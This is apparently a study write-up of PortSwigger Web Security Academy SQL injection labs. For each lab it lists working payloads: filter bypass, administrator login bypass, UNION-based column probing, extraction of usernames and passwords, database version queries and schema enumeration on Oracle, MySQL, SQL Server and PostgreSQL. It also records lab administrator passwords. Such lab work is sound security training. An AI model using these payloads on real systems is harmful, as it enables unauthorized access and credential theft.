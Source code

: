 # SQL injection

[Cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Error-based SQL injection labs

### [Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

Vulnerable URL: https://domain/filter?category=category

Test payload: `category'--`
- This payload shows more products (a condition in the SQL clause was ignored)

To show all products: `category' OR 1=1--`
- `1=1` is an always true statement, meaning the query will return all the results

### [Lab: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

Vulnerable URL: https://domain/login

To log in as administrator: type `administrator'--` in the username and anything in the password
- This payload ignores the verification of the password and logs in only if the user exists

### [Lab: SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

Vulnerable URL: https://domain/filter?category=category

To check the number of columns returned by the query: `category' UNION SELECT NULL,NULL,NULL--`
- If 4 NULLs are provided, the server will return an error (so the query returns 3 columns)

### [Lab: SQL injection UNION attack, finding a column containing text](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

Vulnerable URL: https://domain/filter?category=category

To check the number of columns returned by the query: `category' UNION SELECT NULL,NULL,NULL--`

To check the column with the string payload: `category' UNION SELECT NULL,'a',NULL--`
- The second column returns a string payload that can be used to get info from the database
- To solve the lab: `category' UNION SELECT NULL,'kyFUj0',NULL--`

### [Lab: SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

Vulnerable URL: https://domain/filter?category=category

To check the number of columns returned by the query: `category' UNION SELECT NULL,NULL--`

To check the column with the string payload: `category' UNION SELECT 'a','a'--`

To retrieve the data: `category' UNION SELECT username,password FROM users--`
- To solve the lab, just log in as `administrator:1tmn9btoqihk657tsaxd`

### [Lab: SQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

Vulnerable URL: https://domain/filter?category=category

To check the number of columns returned by the query: `category' UNION SELECT NULL,NULL--`

To check the column with the string payload: `category' UNION SELECT NULL,'a'--`

To retrieve the data: `category' UNION SELECT NULL,username || ':' || password FROM users--`
- Only one column returns a string, so we have to concatenate the content in one column using `||`
- To solve the lab, we just log in as `administrator:93tj2cw6fpat84p6tmna`

### [Lab: SQL injection attack, querying the database type and version on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

Vulnerable URL: https://domain/filter?category=category

To check the number of columns returned by the query: `category' UNION SELECT NULL,NULL FROM dual--`
- On Oracle databases, we have to specify the table when using the `UNION` statement. The `dual` table can be used for that purpose

To check the column with the string payload: `category' UNION SELECT 'a','a' FROM dual--`

To retrieve the data: `category' UNION SELECT BANNER,NULL FROM v$version--`
- The table `v$version` contains information on the database. This table has a column `BANNER` with the database version

### [Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)

Vulnerable URL: https://domain/filter?category=category

Test payload: `category'#`
- If `'--` is used, the server will return an error. For that reason, the comment key on this database is a `#`

To check the number of columns returned by the query: `category' UNION SELECT NULL,NULL#`

To check the column with the string payload: `category' UNION SELECT 'a','a'#`

To retrieve the data: `category' UNION SELECT @@version,NULL#`
- On SQL Server and MySQL databases, information on the version can be found with `SELECT @@version`

### [Lab: SQL injection attack, listing the database contents on non-Oracle databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

Vulnerable URL: https://domain/filter?category=category

To check the number of columns returned by the query: `category' UNION SELECT NULL,NULL--`

To check the column with the string payload: `category' UNION SELECT 'a','a'--`

To get all the tables (and columns on each table) in the database: `category' UNION SELECT table_name,STRING_AGG(column_name, ',') FROM information_schema.columns GROUP BY table_name--`
- This query returns all database tables and their columns. It works on PostgreSQL databases. To use it in MySQL, change `STRING_AGG(column, sep)` to `GROUP_CONCAT(column)`. For other databases, check the documentation for equivalent functions
- The `information_schema.columns` is a table on databases (except Oracle) that has information on all columns from all tables in the database
- Searching through the tables, we can find a `users_xdykim` table with the columns `username_ygnyzx` and `password_wkknxs`

To retrieve all the users: `category' UNION SELECT username_ygnyzx,password_wkknxs FROM users_xdykim--`
- To solve the lab, log in as `administrator:9cwgy2lthvk0ta1ctjos`

### [Lab: SQL injection attack, listing the database contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

Vulnerable URL: https://domain/filter?category=category

To check the number of columns returned by the query: `category' UNION SELECT NULL,NULL FROM dual--`

To check the column with the string payload: `category' UNION SELECT 'a','a' FROM dual--`

To get all the tables (and columns on each table) in the database: `category' UNION SELECT table_name,LISTAGG(column_name, ',') WITHIN GROUP(ORDER BY column_name) column_list FROM user_tab_cols GROUP BY table_name--`
- This query returns all database tables and their columns. It works on Oracle databases. The function `LISTAGG(column, sep)` aggregates a column on a row with a separator and requires `WITHIN GROUP(ORDER BY column) group_name` to work
- The `all_tab_columns` is a table on Oracle databases that has information on all columns from all tables in the database
- Searching through the tables, we can find a `USERS_WBZCLJ` table with the columns `USERNAME_WQDOCJ` and `PASSWORD_NLFHLD`

To retrieve all the users: `category' UNION SELECT USERNAME_WQDOCJ,PASSWORD_NLFHLD FROM USERS_WBZCLJ--`
- To solve the lab, log in as `administrator:v4v788550kfkkew3h2oi`


## Blind SQL injection labs


## References
- https://portswigger.net/web-security/sql-injection
- https://portswigger.net/web-security/sql-injection/union-attacks
- https://portswigger.net/web-security/sql-injection/examining-the-database

